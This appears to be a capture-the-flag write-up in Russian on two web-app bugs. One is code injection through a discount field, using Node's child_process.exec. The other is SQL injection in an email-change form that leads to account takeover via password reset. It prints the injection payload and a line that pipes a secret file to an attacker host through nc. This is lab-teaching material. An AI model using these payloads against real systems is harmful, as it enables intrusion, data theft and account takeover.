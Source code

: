 # RCE
## Описание уязвимости

https://www.wallarm.com/what/the-concept-of-rce-remote-code-execution-attack

https://cwe.mitre.org/data/definitions/94.html

## Exploit

Поле ввода скидки позволяет выполнять команды через внедрение следующего кода:
require('child_process').exec(COMMAND)

Поле ввода:
![img_4.png](img_4.png)

Пример перехваченого и измененного запроса:

![img.png](img.png)
Результаты выполненых команд можно передать на хост через nc. Включаем nc на хосте на прослушивание на порту 8080 и получаем вывод команды:

![img_1.png](img_1.png)

В качестве команды передаем cat SuperSecretData | nc #ip# #port#

Получаем флаг:

![img_2.png](img_2.png)

# SQLi
## Описание уязвимости

https://portswigger.net/web-security/sql-injection
https://cwe.mitre.org/data/definitions/89.html

## Exploit

Функционал изменения почты в личном кабинете пользователя не фильтрует пользовательский ввод почты и использует для этого sql запрос.
Поле ввода:
![img_3.png](img_3.png)

При попытке изменения sql запроса, получаем Validation error:

![img_5.png](img_5.png)

При добавлении условия where email='#email#' данной ошибки нет, но до данного условия необходимо догадаться, так скажем smart bruteforce.

![img_6.png](img_6.png)

Проверим восстановление пароля по новой почте. Отправляем запрос и видим письмо со ссылкой на почте.

![img_7.png](img_7.png)

Воспользуемся ссылкой, изменим пароль и зайдем в профиль с новыми данными. 

![img_8.png](img_8.png)

Получаем флаг в личном кабинете пользователя, данные которого мы изменили.

![img_9.png](img_9.png)